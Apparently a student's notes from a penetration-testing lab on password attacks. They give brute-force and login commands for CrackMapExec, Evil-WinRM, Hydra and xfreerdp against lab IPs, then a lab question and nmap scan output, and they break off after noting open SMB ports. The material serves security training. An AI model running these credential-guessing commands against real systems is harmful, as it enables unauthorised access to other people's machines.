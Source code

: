 
#### WINRM

>[! Note ]
> It is a network protocol based on XML web services using the [Simple Object Access Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-glossary) (`SOAP`) used for remote management of Windows systems. It takes care of the communication between [Web-Based Enterprise Management](https://en.wikipedia.org/wiki/Web-Based_Enterprise_Management) (`WBEM`) and the [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (`WMI`), which can call the [Distributed Component Object Model](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0) (`DCOM`).


#### CrackMapExec

>[! Note ]
> Can be used for SMB, LDAP, MSSQL and others

**Usage**
`crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>`

Example:
```go
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```


#### Evil-WinRM

Allows you to communicate with WinRM 

**Usage**
`evil-winrm -i <target-IP> -u <username> -p <password>`

Example:
```go
evil-winrm -i 10.129.42.197 -u user -p password
```

#### Hydra

**Hydra-SSH**
```go
hydra -L user.list -P password.list ssh://10.129.42.197
```

Hydra-RDP
```go
hydra -L user.list -P password.list rdp://10.129.42.197
```

Hydra-SMB
```go
hydra -L user.list -P password.list smb://10.129.42.197
```

#### xFreeRDP
```go
xfreerdp /v:10.129.42.197 /u:user /p:password
```

>[! Warning]
>
> If you can encounter an error while compiling Hydra to crack an SMB password, you can re-compile or use metasploit's `auxiliary/scanner/smb/smb_login` 

### Questions

IP
```go
10.129.249.226
```

SSH
```go
ssh USERNAME@10.129.249.226
```

1) Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

##### NMAP

```go
nmap -sC -A 10.129.249.226            
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-20 22:09 EDT
Nmap scan report for 10.129.249.226
Host is up (0.13s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 f8:7f:1a:49:37:df:4d:9f:1b:13:c3:9a:bd:de:55:b4 (RSA)
|   256 b9:c9:3a:f1:fc:3b:85:27:09:2a:69:c1:43:0b:97:9b (ECDSA)
|_  256 d1:a8:1a:e9:26:82:4b:a2:48:92:06:f8:ed:13:5d:71 (ED25519)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WINSRV
|   NetBIOS_Domain_Name: WINSRV
|   NetBIOS_Computer_Name: WINSRV
|   DNS_Domain_Name: WINSRV
|   DNS_Computer_Name: WINSRV
|   Product_Version: 10.0.17763
|_  System_Time: 2025-04-21T02:12:36+00:00
| ssl-cert: Subject: commonName=WINSRV
| Not valid before: 2025-04-20T02:10:51
|_Not valid after:  2025-10-20T02:10:51
|_ssl-date: 2025-04-21T02:12:44+00:00; +2m20s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=4/20%OT=22%CT=1%CU=40819%PV=Y%DS=2%DC=T%G=Y%TM=6805A92
OS:0%P=aarch64-unknown-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS
OS:=S%TS=U)SEQ(SP=104%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=106%GCD
OS:=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=U)SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=I%I
OS:I=I%SS=S%TS=U)SEQ(SP=F9%GCD=1%ISR=FF%TI=I%CI=I%II=I%SS=S%TS=U)OPS(O1=M53
OS:CNW8NNS%O2=M53CNW8NNS%O3=M53CNW8%O4=M53CNW8NNS%O5=M53CNW8NNS%O6=M53CNNS)
OS:WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=
OS:FFFF%O=M53CNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%
OS:DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%
OS:O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=
OS:)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%
OS:UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-21T02:12:39
|_  start_date: N/A
|_clock-skew: mean: 2m19s, deviation: 0s, median: 2m19s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   265.52 ms 10.10.14.1
2   265.76 ms 10.129.249.226

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.91 seconds
```

SMB ports 135,139, and 445 are open
